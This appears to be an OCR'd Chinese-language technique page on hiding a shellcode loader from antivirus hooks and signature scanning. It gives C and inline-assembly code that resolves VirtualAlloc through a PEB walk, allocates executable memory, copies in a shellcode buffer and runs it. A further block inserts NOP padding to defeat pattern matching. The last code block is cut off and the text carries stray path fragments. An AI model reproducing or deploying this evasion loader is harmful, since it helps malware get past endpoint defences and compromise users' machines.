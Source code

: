 ### 动态调用 API 函数
```c
void* ntAllocateVirtualMemory = GetProcAddress(LoadLibraryA("ntdll.dll"), "NtAllocateVirtualMemory");
```

https://4hou.win/wordpress/?cat=612

通过动态调用 API 函数的方式来调用 virtualalloc 函数。具体的做法是， load kernel32.dll 库，使用汇编语言从 kernel32 库中取得 virtualalloc 函数在内存中的地址，然后执行。
另外,假设Loadlibrary函数也被hook了(这也太硬核了),我们也可以从PEB中获取函数地址,下面代码demo为Load kernel32.dll, 再有甚者,对机器码做了模式匹配,我们可以在代码中加入一些nop指令或者一些正常功能的垃圾混淆代码。
```c
//HMODULE hModule =LoadLibrary(_T("Kernel32.dll"));
HMODULE hModule = NULL;

//LoadLibrary 记得从中加入一些nop指令(空指令雪橇)
//空指令雪橇原理: 针对机器码匹配的话基本是进行模式匹配的
	__asm {

		mov esi, fs: [0x30]//得到PEB地址
     nop
     nop
		mov esi, [esi + 0xc]//指向PEB_LDR_DATA结构的首地址
		mov esi, [esi + 0x1c]//一个双向链表的地址
		mov esi, [esi]//得到第二个条目kernelBase的链表
		mov esi, [esi]//得到第三个条目kernel32链表（win10）
		mov esi, [esi + 0x8] //kernel32.dll地址
		mov hModule, esi
	}

HANDLE shellcode_handler;
FARPROC Address = GetProcAddress(hModule,"VirtualAlloc");//拿到virtualalloc的地址
_asm
{
      push 40h  //push传参
      push 1000h
      push 29Ah
      push 0
      call Address  //函数调用
      mov shellcode_handler, eax
}
memcpy(shellcode_handler, newshellcode,sizeof newshellcode);
((void(*)())shellcode_handler)();
```

### 垃圾混淆代码---nop nop空指令雪橇

```c
_asm {
mov esi, fs:[0x30]//得到PEB地址
NOP
NOP
NOP
NOP
NOP
mov esi, [esi + 0xc]//指向PEB_LDR_DATA结构的首地址
NOP
NOP
NOP
NOP
mov esi, [esi + 0x1c]//一个双向链表的地址
NOP
NOP
NOP
```

[go/shellcode_inject/virtual>>]: generate